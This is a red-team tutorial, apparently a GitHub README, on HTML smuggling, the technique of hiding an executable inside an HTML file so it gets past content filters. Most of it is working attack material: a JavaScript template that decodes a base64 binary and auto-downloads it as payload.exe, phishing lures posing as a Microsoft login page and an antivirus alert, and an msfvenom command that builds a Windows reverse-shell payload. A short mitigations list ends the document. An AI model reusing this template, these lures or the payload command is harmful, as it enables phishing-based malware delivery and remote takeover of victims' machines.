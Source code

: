 # HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by <head> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. My test is based off of examples found [here](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

![](smuggle1.png)

First, we need to base64 encode it because the binary can’t directly be copied as a buffer because it contains various characters that might break the buffer and full file may not be copied that way. We use the base64 tool in Kali:
```
Cat leroy.exe | base64
```

![](smuggle2.png)

It is a fairly long output. The issue with this is there is “enter” or carriage returns and its not all in one single line. In order to supply this into our blob as a buffer, we need a single string with no enters. To do this we go [here](https://base64.guru/converter/encode/file) and upload our file and convert it to base64 as plain text-just the base64 value:

![](smuggle3.png)

The goal is to create a JavaScript Blob and a script that will allow us as an attacker to make our code recompile as an EXE file at the victim end. This approach can bypass many content filters and firewalls since the data is travelling as a string text. Here is the template we can use, just replace var binary='<value>' with the actual Base64 string value
```
<html>
<body>
<h1>Malware Detected!</h1>
<p>Alert! Run the downloaded script for anti-virus scan!</p>
<script>
function b64toarray(base64) {
        var bin_string = window.atob(base64);
        var len = bin_string.length;  
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++)
        {
                bytes[i] = bin_string.charCodeAt(i);
        }
        return bytes.buffer;
}
var binary ='<value>'

var data = b64toarray(binary);
var blob = new Blob([data], {type: 'octet/stream'});
var payloadfilename = 'payload.exe';

var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none'; 
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = payloadfilename;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```
First, let’s see the results of it, then we can break down whats going on in the script. So when someone gets this HTML and opens it, it will automatically craft the executable from the base64 content and then download it without anyone needing to click a link. Some peoples browsers may simply download without a prompt, so keep that in mind. 

![](smuggle4.png)

There we see it automatically starts the download upon me visiting the page, because of the click() function, and a message stating that whatever was downloaded needs to be run to scan for viruses (of course be more crafty than this). I allow the download and then we can run strings on it to verify it is indeed the dnscat executable. 

![](smuggle5.png)

![](smuggle6.png)

We do see code above indicating it is indeed dnscat. Lets break down what the code is doing:
1.	Function b64toarray: Takes input of our base64 encoded binary file and converts it into a buffer array. This is necessary as the “Blob()” function takes input from a buffer array as the first parameter.
2.	Variable binary: This variable contains the base64 string of our binary and is used to provide function b64toarray input. Replace Value with our base64 encoded string.
3.	Variable blob: Holds the blob we just created and takes two inputs as explained above. Here, since we are providing a binary as input the MIME type becomes octet/stream
4.	Variable payloadfilename: It is the name that will be given to our binary once it is downloaded on the victim’s machine. This is what you would want to name to be convincing to the victim.
5.	CreateElement: A DOM function that can create new HTML elements with the help of JavaScript. For example to create a new para in HTML we type: \<p>New Para\</p>
6.	style: We are using the styling ‘display: none’ to be more discreet so that a tag isn’t visible on the output.
7.	createObjectURL(): A DOM function that can return a DOMString containing a value that represents the URL of an object. This object can be a file, media source or in our case blob. It is very necessary as the a.download works on valid URLs only. For our payload blob to be downloaded on the victim, we need to supply the a.download element with a valid URL which this function returns.
8.	click(): Is what will trigger this anchor tag to automatically run. It simulates as if a user has actually clicked on the link provided by the href tag.

You can also fir up Kali and try this with an msfvenom created payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.129.132 LPORT=1234 -f exe > payload.exe
```
Base64 encode this on base64.guru and try the same template. 

## Mitigations
- Configure security products to block against pages using JS or VBScript from automatically running a downloaded executable. Windows Attack Surface Reduction Rules are handy for this https://learn.microsoft.com/en-us/mem/intune/protect/endpoint-security-asr-profile-settings  - Specifically the following rules:
	- Block execution of potentially obfuscated scripts (js/vbs/ps)
	- Block JavaScript or VBScript from launching downloaded executable content
- Whitelist executable filenames
- Set .js and .jse to open with notepad by default and not a browser
- Educate users to manually review e-mail attachments
- Set behaviour rules for HTML pages that decode base64 code or obfuscate a JS script.
- Microsoft’s Safe Links and Safe Attachments provide real-time protection against HTML smuggling and other email threats by utilizing a virtual environment to check links and attachments in email messages before they are delivered to recipients. Thousands of suspicious behavioral attributes are detected and analyzed in emails to determine a phishing attempt

## References
[delivr article](https://blog.delivr.to/html-smuggling-recent-observations-of-threat-actor-techniques-74501d5c8a06)

